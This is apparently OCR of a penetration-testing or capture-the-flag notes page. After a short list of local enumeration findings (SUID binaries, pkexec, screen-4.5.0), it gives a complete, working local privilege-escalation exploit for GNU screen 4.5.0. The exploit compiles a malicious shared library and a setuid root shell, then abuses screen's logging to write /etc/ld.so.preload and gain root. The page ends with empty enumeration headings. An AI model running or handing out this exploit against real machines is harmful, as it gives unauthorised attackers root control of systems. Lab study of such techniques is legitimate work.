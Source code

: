 ```bash
---- local enum

suid, ntfs-3g, pkexec, screen-4.5.0 


---- root

cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c

cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c

cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed

screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```



# Enum

## nmap scan

